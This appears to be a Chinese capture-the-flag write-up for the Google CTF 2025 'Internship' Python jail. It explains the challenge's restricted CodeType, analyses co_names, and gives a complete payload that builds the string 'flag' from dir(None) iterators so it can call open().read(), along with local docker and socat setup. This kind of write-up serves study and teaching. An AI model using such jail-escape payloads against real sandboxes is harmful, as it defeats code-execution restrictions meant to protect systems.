# GoogleCTF2025之pwn-Internship详解-先知社区

> **来源**: https://xz.aliyun.com/news/18432  
> **文章ID**: 18432

---

# 题目简介

题目信息如下：

> We just hired an intern, and they kept telling me their Python shell returns 1 when they asked for 2, and 6 when they asked for 9, and 4 when they asked for 20. What’s going on?
>
> Author: mxms

译：

> 我们刚刚雇佣了一名实习生，他们一直告诉我，他们的 Python shell 在要求返回2 时却返回 1，在要求返回 9 时却返回 6，在要求返回 20 时返回 4。这是怎么回事？
>
> 作者： mxms

附件下载链接：[Google CTF pwn Internship](https://dummykitty.github.io/assets/archives/dce71cf07be3e363fa23ea147082441be615afde5b8bdb1f89b6e3349d0f9493f3df269835975677b64e435591ad7f918d196d0c3a4d3c4f1e654c04c6ed6358.zip)

题目源码：

```
import ctypes
import random
import sys
import os
import struct

from types import CodeType, FunctionType

p32 = lambda x: struct.pack("<i", x)
u32 = lambda x: struct.unpack("<i", x)[0]

class Intern:
    def __init__(self, g, i, b):
        self.g = g
        self.i = i
        self.b = b

    def serialize(self):
        return self.g + p32(self.i) + self.b

def swap():
    ints = [x for x in range(255)]
    random.shuffle(ints)

    intern_num_size = 28 + 4
    interns = ctypes.string_at(id(1), 255 * intern_num_size)
    structure = lambda x: Intern(x[0:24], u32(x[24:28]), x[28:32])

    new_interns = bytearray()

    for i in range(255):
        st = structure(interns[i* intern_num_size : (i + 1) * intern_num_size])
        st.i = ints[i]
        
        new_interns += st.serialize()

    #  3 2 1 let's jam
    ctypes.memmove(id(1), bytes(new_interns), len(new_interns))

def main():
    print("We just hired an intern and they keep telling me that their python interpreter isn't working. They keep trying to read the `flag` but it keeps crashing. I don't really have time to debug this with them. Can you help them out?")

    the_code = ''
    while True:
        line = input()
        if line == '':
            break
        the_code = the_code + line + '
'

    g = compile(the_code, '<string>', 'exec')

    to_exec = CodeType(
        0,
        0,
        0,
        1,
        10,
        0,
        g.co_code,
        (None,),
        ('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'),
        ('a',),
        '<string>',
        '<module>',
        '',
        1,
        b'',
        b'',
        (),
        (),
    )

    sc = FunctionType (to_exec, {})
    swap()
    sc()

if __name__ == '__main__':
    main()
```

大体分为以下步骤

1、while循环读入字符串赋值给the\_code，经过 compile 得到代码对象。

```
compile主要语法：

compile(字符串或对象, 文件名或值, exec或eval或single种类)
```



g.co\_code指的是字节码



2、动态创建CodeType对象，限制可用变量和函数。

什么是CodeType对象？

在Python中，`CodeType`是用于表示字节码对象的类型，属于`types`模块的一部分。它封装了Python函数或模块编译后的底层字节码信息，是动态创建和执行代码的关键工具。

```
from types import CodeType
code_obj = CodeType(
    co_argcount,          # 位置参数数量（不包括关键字参数）
    co_posonlyargcount,   # 仅限位置参数数量（Python 3.8+）
    co_kwonlyargcount,    # 仅限关键字参数数量
    co_nlocals,          # 局部变量数量（包括参数）
    co_stacksize,        # 执行所需的栈空间
    co_flags,            # 字节码标志位（如优化选项）
    co_code,             # 字节码指令序列（bytes类型）
    co_consts,           # 字节码使用的常量元组（如字符串、数字等）
    co_names,            # 全局变量名称元组
    co_varnames,         # 局部变量名称元组（包括参数名）
    co_filename,         # 源代码文件名
    co_name,             # 函数/模块名
    co_firstlineno,      # 代码首行行号
    co_lnotab,           # 行号与字节码偏移的映射（Python 3.10前）
    co_freevars,         # 自由变量名称元组（闭包用）
    co_cellvars          # 被嵌套函数引用的局部变量名称元组
)
```

3、通过`compile`生成字节码后，将生成的字节码传入到 CodeType ，然后结合`FunctionType`包装为可调用函数

sc

4、将python的内存数据从0到254进行一个打乱

5、最后再执行我们的 sc 函数

# 代码对象CodeType

在这里我们需要注意一个点，在Python中，函数的`__code__`属性是存储函数底层字节码和元数据的`CodeType`对象。而普通函数对象包含太多无关信息（如闭包、装饰器等），`__code__`只包含纯执行逻辑的核心数据。因此如果普通函数直接调用co\_code会直接报错。



我们先看看题目是如何创建的

```
from types import CodeType
str = "for i in range(0,10): print(i)"
g = compile(str, '<string>', 'exec')

CodeType(
        0,
        0,
        0,
        1,
        10,
        0,
        g.co_code,
        (None,),
        ('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'),
        ('a',),
        '<string>',
        '<module>',
        '',
        1,
        b'',
        b'',
        (),
        (),
    )
```

那么对应的其实就是

```
co_argcount: 0
co_posonlyargcount: 0
co_kwonlyargcount: 0
co_nlocals: 1
co_stacksize: 10
co_flags: 0
co_code: b'\x97\x00\x02\x00e\x00d\x00d\x01\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00D\x00]\rZ\x01\x02\x00e\x02e\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x8c\x0ed\x02S\x00'
co_consts: (None,)
co_names: ('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read')
co_varnames: ('a',)
co_filename: <string>
co_name: <module>
co_qualname: 
co_firstlineno: 1
co_linetable: b''
co_exceptiontable: b''
co_freevars: ()
co_cellvars: ()
```

# 分析

## 1、co\_names到底是什么意思呢？

可以看到题目有

```
('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read')
```

实际上co\_names就是全局变量名称元组，里面是允许被调用的字符。

同时我发现

```
co_names如果为('f','dir', '__iter__', 'p', '__next__', 'print', 'open', 'read'),
则f必须要定义而p不需要被定义
co_names如果为('p','dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'),
则p必须要定义而f不需要
```

这是为什么呢？

通过dis.dis(a)去查询，发现

```
from types import CodeType, FunctionType
import dis

str = """
print(None)
"""
g = compile(str, '<string>', 'exec')
a=CodeType(
        0,
        0,
        0,
        1,
        10,
        0,
        g.co_code,
        (None,),
        ('p','dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'),
        ('a',),
        '<string>',
        '<module>',
        '',
        1,
        b'',
        b'',
        (),
        (),
    )
# 反汇编查看指令
dis.dis(a)
```

输出结果：

```
          0 RESUME                   0
          2 PUSH_NULL
          4 LOAD_NAME                0 (p)
          6 LOAD_CONST               0 (None)
          8 PRECALL                  1
         12 CALL                     1
         22 POP_TOP
         24 LOAD_CONST               0 (None)
         26 RETURN_VALUE
```

`LOAD_NAME`表示从当前作用域中加载名称到栈顶，此时首先加载了p符号。

由于，只要字节码通过索引访问它们，但是`co_names` 又包含未使用的符号，解释器就会触发错误

比如执行环境中没有定义 'p'，即，没有给p赋值，会触发 NameError: name 'p' is not defined

根本原因就是co\_names 包含 'p'，而字节码又通过索引（0）访问它们，但未在全局/局部环境提供该符号

因此p一定要被定义，而后面的f却没有通过索引访问，因此f没有被定义也不会报错。

## 2、co\_consts被赋值为(None,)

这里的题目将co\_consts赋值成了(None,)

题目限制常量只能用 None。数字、字符串都是不能直接使用。 也同时限制了函数或者或者 lambda 表达式的使用。

## 3、swap函数

swap函数使用ctypes.memmove函数直接操作内存，将修改后的new\_interns数据复制到id(1)指向的内存地址。

修改Python解释器内部的内存数据，打乱`intern_num_size`相关的整数顺序。



# 构造exp

dockerfile提示我们附件在/home/user目录下面，即当前目录下

我们我们尝试去构造一个open('flag').read()的payload即可



由于题目限制常量只能用 None，因此我们只能p=None这样来进行赋值

同时发现dir(None)也是有他自己的属性的



在 Python 中，迭代器是一个实现了 `__iter__` 和 `__next__` 方法的对象。`__iter__` 方法返回迭代器对象自身，而 `__next__` 方法返回下一个元素。

那么我们岂不是能利用题目给的 `__iter__` 和 `__next__` 方法来构造自己想要的字符串了吗？

比如说我们需要找f字母

发现

```
__format__和__sizeof__都纯在f，但是__format__构造起来会比较简单
```

因此我们需要7个next才能够选中format



然后我们还要选中format对象



成功的输出了我们的f字符

生成l

```
p = dir(None)
f = p.__iter__()
print(p)
p = f.__next__()
f = p.__iter__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
print(p)
```

生成a

```
p = dir(None)
f = p.__iter__()
p = f.__next__()
p = f.__next__()
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
```

生成g

```
p = dir(None)
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
```

如果我们继续往下构造字符串，就需要我们用第三个变量将四个字符给存储起来

经过fuzz测试，如果在代码中间调用 print 会导致其后的代码无法执行。所以 print 必须最后才能使用

这里如果我们利用open作为第三个变量存储字符的话，



最后会报错，也不行

这是因为print和open都是一个独立的内置函数，而read是文件对象的一个方法，

所以可以直接拿read作为一个变量进行赋值。

所以我们最终的payload是

```
p = None
p = dir(None)
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
f=print
f=open
read=f"{p}"
p = dir(None)
f = p.__iter__()
p = f.__next__()
f = p.__iter__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
p=f.__next__()
read=f"{read}{p}"
p = dir(None)
f = p.__iter__()
p = f.__next__()
p = f.__next__()
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
read=f"{read}{p}"
p = dir(None)
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
f = p.__iter__()
p = f.__next__()
p = f.__next__()
p = f.__next__()
read=f"{read}{p}"
print(read)
f=open(read).read()
print(f)
```

拿到flag



# 环境搭建



```
docker build -t pyjail -f Dockerfile .
docker run --privileged -it --rm pyjail:latest /bin/bash
```

进入容器以后输入命令

```
kctf_setup && \
    kctf_drop_privs \
    socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"kctf_pow nsjail --config /home/user/nsjail.cfg -- /usr/bin/python3 /home/user/bad.py"
```

启动另外一个终端连接靶场

```
nc 127.0.0.1 1337
```

输入上述最终的payload，即可拿到flag
